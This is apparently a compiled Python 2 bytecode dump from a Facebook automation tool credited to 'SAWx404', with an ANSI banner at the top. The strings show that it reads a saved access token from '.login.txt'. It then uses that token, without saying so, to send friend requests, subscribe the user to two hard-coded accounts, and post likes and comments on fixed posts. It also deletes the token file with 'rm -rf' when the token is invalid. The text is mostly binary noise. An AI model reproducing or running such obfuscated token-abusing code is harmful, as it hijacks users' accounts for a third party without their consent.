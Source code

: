 \n\x1b[1;91m             ##     ##    ##    ## #### ##    ##  ######\x1b[1;0m\n\x1b[1;91m            ###   ###    ##   ##   ##  ###   ## ##    ##\x1b[1;0m\n\x1b[1;97m           #### ####    ##  ##    ##  ####  ## ##\x1b[1;0m\n\x1b[1;97m          ## ### ##    #####     ##  ## ## ## ##   ####\x1b[1;0m\n\x1b[1;91m         ##     ##    ##  ##    ##  ##  #### ##    ## \x1b[1;0m\n\x1b[1;91m        ##     ##    ##   ##   ##  ##   ### ##    ##\x1b[1;0m\n\x1b[1;97m       ##     ##    ##    ## #### ##    ##  ######\x1b[1;0m\n\x1b[1;97m--------------------------------------------------\n\x1b[1;91m Author      : SAWx404 \n\x1b[1;91m GitHub      : https://github.com/SAWx404\n\x1b[1;91m YouTube     :  SAW 404\n\x1b[1;91m Telegram    : https://t.me/sawx404\n\x1b[1;91m\n\x1b[1;97m--------------------------------------------------\nc\x00\x00\x00\x00\x08\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sQ\x02\x00\x00y\x19\x00t\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00}\x00\x00Wn2\x00\x04t\x02\x00k\n\x00rM\x00\x01\x01\x01t\x03\x00j\x04\x00d\x03\x00\x83\x01\x00\x01t\x03\x00j\x04\x00d\x04\x00\x83\x01\x00\x01t\x05\x00\x83\x00\x00\x01n\x01\x00Xd\x05\x00}\x01\x00d\x06\x00}\x02\x00d\x07\x00}\x03\x00d\x08\x00}\x04\x00d\t\x00}\x05\x00d\n\x00}\x06\x00d\x0b\x00}\x07\x00t\x06\x00j\x07\x00d\x0c\x00|\x01\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x0c\x00|\x02\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x0e\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x0f\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x10\x00|\x04\x00\x17d\x11\x00\x17|\x00\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x12\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x13\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x14\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x15\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x16\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x16\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x17\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x18\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x19\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1a\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1b\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1c\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1d\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1e\x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d\x1f\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d \x00|\x00\x00\x17\x83\x01\x00\x01t\x06\x00j\x07\x00d!\x00|\x06\x00\x17d\r\x00\x17|\x00\x00\x17\x83\x01\x00\x01t\x08\x00\x83\x00\x00\x01d\x00\x00S("\x00\x00\x00Ns\n\x00\x00\x00.login.txtt\x01\x00\x00\x00rs&\x00\x00\x00echo -e "[!] Token invalid ! "| lolcats\x11\x00\x00\x00rm -rf .login.txtt\x0f\x00\x00\x00100009918107424t\x0f\x00\x00\x00100027060438331s\x0c\x00\x00\x00Nice  \xe2\x9d\xa4\xef\xb8\x8ft\x10\x00\x00\x001518283875178868t\x0f\x00\x00\x00843036946608312s5\x00\x00\x00i love you @[100027060438331:]    @[100009918107424:]s\x0b\x00\x00\x00nice \xe2\x9d\xa4\xef\xb8\x8fs7\x00\x00\x00https://graph.facebook.com/me/friends?method=post&uids=s\x0e\x00\x00\x00&access_token=sD\x00\x00\x00https://graph.facebook.com/100027060438331/subscribers?access_token=sD\x00\x00\x00https://graph.facebook.com/100009918107424/subscribers?access_token=s\x1b\x00\x00\x00https://graph.facebook.com/s\x13\x00\x00\x00/comments/?message=sK\x00\x00\x00https://graph.facebook.com/843036946608312/likes?summary=true&access_token=s[\x00\x00\x00https://graph.facebook.com/843036946608312/comments/?message=very Nice \xe2\x9d\xa4\xef\xb8\x8f&access_token=sL\x00\x00\x00https://graph.facebook.com/1518283875178868/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1518283875178868/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1589758271364761/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1588336131506975/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1588336131506975/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1578822245791697/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1578822245791697/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1574781699529085/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1574781699529085/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1557330491274206/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1557330491274206/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1548776652129590/comments/?message=sL\x00\x00\x00https://graph.facebook.com/1548776652129590/likes?summary=true&access_token=s>\x00\x00\x00https://graph.facebook.com/1547598918914030/comments/?message=(\t\x00\x00\x00t\x04\x00\x00\x00opent\x04\x00\x00\x00readt\x07\x00\x00\x00IOErrort\x02\x00\x00\x00ost\x06\x00\x00\x00systemt\x05\x00\x00\x00msprot\x08\x00\x00\x00requestst\x04\x00\x00\x00postt\x04\x00\x00\x00menu(\x08\x00\x00\x00t\x05\x00\x00\x00tokett\x03\x00\x00\x00unat\x04\x00\x00\x00idfbt\x03\x00\x00\x00komR\x0c\x00\x00\x00t\x05\x00\x00\x00post2t\x06\x00\x00\x00mskingt\x04\x00\x00\x00kom2(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x06\x00\x00\x00coment\x14\x00\x00\x00sH\x00\x00\x00\x00\x01\x03\x01\x19\x01\r\x01\r\x01\r\x01\x0b\x02\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x19\x01\x19\x01\x11\x01\x11\x01!\x01\x11\x01\x11\x01\x11\x01\x19\x01\x11\x01\x11\x01\x19\x01\x11\x01\x19\x01\x11\x01\x19\x01\x11\x01\x19\x01\x11\x01\x19\x01\x11\x01\x19\x01N(\x02\x00\x00\x00t\x04\x00\x00\x00logoR\x15\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00